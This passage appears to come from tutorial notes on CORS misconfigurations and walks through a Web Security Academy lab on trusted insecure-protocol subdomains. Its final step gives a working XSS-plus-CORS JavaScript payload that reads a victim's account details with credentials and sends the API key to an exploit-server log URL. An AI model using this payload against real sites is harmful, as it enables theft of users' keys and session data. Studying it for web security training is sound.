 ```http
GET /api/requestApiKey HTTP/1.1 Host: vulnerable-website.com Origin: https://subdomain.vulnerable-website.com Cookie: sessionid=...
```

If the server responds with:

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com 
Access-Control-Allow-Credentials: true
```

Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:

```css
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```http
GET /api/requestApiKey HTTP/1.1 Host: vulnerable-website.com 
Origin: http://trusted-subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

The application responds with:

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true
```
### Lab: CORS vulnerability with trusted insecure protocols
1. Check intercept is off, then use Burp's browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header `Origin: http://subdomain.lab-id` where `lab-id` is the lab domain name.
4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
5. Open a product page, click **Check stock** and observe that it is loaded using a HTTP URL on a subdomain.
6. Observe that the `productID` parameter is vulnerable to XSS.
7. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL and `YOUR-EXPLOIT-SERVER-ID` with your exploit server ID:

```javascript
<script> document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>
```
